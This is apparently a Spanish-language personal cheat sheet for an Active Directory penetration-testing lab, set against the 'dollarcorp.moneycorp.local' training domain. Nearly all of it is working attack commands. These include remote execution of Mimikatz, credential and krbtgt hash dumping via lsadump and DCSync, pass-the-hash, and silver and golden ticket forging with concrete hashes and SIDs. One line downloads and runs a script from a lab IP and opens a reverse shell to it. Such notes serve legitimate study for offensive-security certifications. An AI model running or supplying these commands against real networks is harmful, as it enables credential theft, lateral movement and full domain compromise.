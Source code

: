 ## BeRoot
..* `.\beRoot.exe`

## Privesc
..* `Invoke-PrivEsc`

# Remote Powerwshell
## 1-1 Para no cerrar la sessión, si directamente hacer el Enter-PSSession con el ComputerName cuando sales se cierra.
..* `$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local`
..* `Enter-PSSession -Name $sess`

## 1-N 
..* `Invoke-Command –Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)` 
..* `Invoke-Command -Session $sess -FilePath C:\AD\Invoke-Mimikatz.ps1`

# Mimikatz
..* `Inovke-Mimikatz` Lanzar comando básico de -DumpCreds

# Shell en jenkings (user: builduser, builduser)
..* `powercat -l -p 443 -v -t 1024`
..* `powershell.exe iex (iwr http://172.16.100.46/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.46 -Port 443`


## Pash the hash
..* `Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'` Lanza un proceso de powershell con el hash del usuario svcadmin
..* `Invoke-Mimikatz -Command '"lsadump::lsa /patch"' –Computername dcorp-dc` Saca todos los hashes de los usuarios del dominio incluido el del "krbtgt"
..* `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'` Saca el hash de "krbtgt" de una manera más silenciosa y sin tener que ejecutar mimikatz en el DC

## Silver ticket
Utilizamos el hash de un admin para pedir un TGS de un servicio concreto.
..* `Invoke-Mimikatz -Command '"kerberos::golden /admin:svcadmin /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /target:dcorp-mssql.dollarcorp.moneycorp.LOCAL /service:cifs /ntlm:b38ff50264b74508085d82c69794a4d8  /ptt"'`
..* `Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /target:dcorp-mssql.dollarcorp.moneycorp.LOCAL /service:HTTP /rc4:af0686cc0ca8f04df42210c9ac980760 /user:Administrator /ptt"'`

## Golden Ticket
Nos permite generar un ticket con las credenciales del "krbtgt" para poder acceder con ese ticket a cualquier servicio del cominio.
..* `Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'` Para crear un golden ticket
..** sid es del dominio
..** id es del usuario (por defecto 500)
..** groups es del usurio por defecto 512 513 518 519 520
..** ptt es para añadir el ticket al proceso de powershell y si no poner /ticket para ponerlo en fichero
..** si tiene cifrado aes poner /aes128 y/o /aes256